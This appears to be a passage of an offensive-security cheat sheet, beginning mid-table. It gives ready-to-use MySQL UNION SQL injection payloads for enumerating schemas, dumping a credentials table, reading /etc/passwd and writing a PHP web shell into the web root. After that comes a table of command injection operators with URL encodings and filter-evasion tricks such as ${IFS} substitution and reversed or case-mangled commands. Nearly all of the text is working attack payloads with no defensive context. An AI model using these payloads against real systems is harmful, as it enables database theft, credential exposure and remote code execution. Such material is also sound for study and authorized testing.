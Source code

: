 | `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

# Commands injections

| Injection operator | Injected character | URL - encoded character | Executed Command |
| --- | --- | --- | --- |
| Semicolon | ; | %3b | Both |
| New Line | \\n | %0a | Both |
| Background | & | %26 | Both (second output generally shown first) |
| Pipe | %7c | Both (only second output is shown) |  |
| AND | && | %26%26 | Both (only if first succeeds) |
| OR | || | %7c%7c | Second (only if first fails) |
| Sub-Shell | \`\` | %60%60 | Both (Linux-only) |
| Sub-Shell | $() | %24%28%29 | Both (Linux-only) |

### Command injection Bypass

| Command | Description |
| --- | --- |
| `printenv` | Can be used to view all environment variables |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| `{ls,-la}` | Commas will be replaced with spaces |
| `${PATH:0:1}` | Will be replaced with / |
| `${LS_COLORS:10:1}` | Will be replaced with ; |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (\[ -&gt; ) |
| `' or "` | Total must be even |
| `$@ or \` | Linux only |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| `echo 'whoami' | rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |